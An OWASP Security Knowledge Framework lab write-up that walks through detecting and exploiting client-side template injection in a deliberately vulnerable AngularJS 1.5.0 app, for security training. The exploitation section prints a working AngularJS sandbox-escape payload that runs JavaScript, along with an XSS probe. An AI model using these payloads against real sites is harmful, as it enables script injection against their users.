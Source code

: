 # KBID 111 - Client Side Template Injection

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:csti
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](<.gitbook/assets/screen-shot-2019-03-04-at-21.33.32 (1).png>)

## Reconnaissance

### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/.gitbook/assets/csti-1.png)

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.html` page in the source code, we can see that a variable `{{CSTI}}` is used in the page

```markup
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```

### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

{% hint style="info" %}
We are going to use the same payload of the XSS lab
{% endhint %}

```markup
"><script>alert('XSS')</script>
```

Unfortunately the alert does not trigger :(

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/.gitbook/assets/csti-2.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

### Step3

{% hint style="warning" %}
How do we get XSS?
{% endhint %}

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/.gitbook/assets/csti-3.png)

{% hint style="success" %}
Bingo!!
{% endhint %}

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

* break the sanitizer
* escape the sandbox&#x20;
* forge a working payload&#x20;

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```markup
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```

We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```javascript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```

We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/.gitbook/assets/csti-4.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes" %}

{% embed url="https://docs.angularjs.org/guide/security" %}
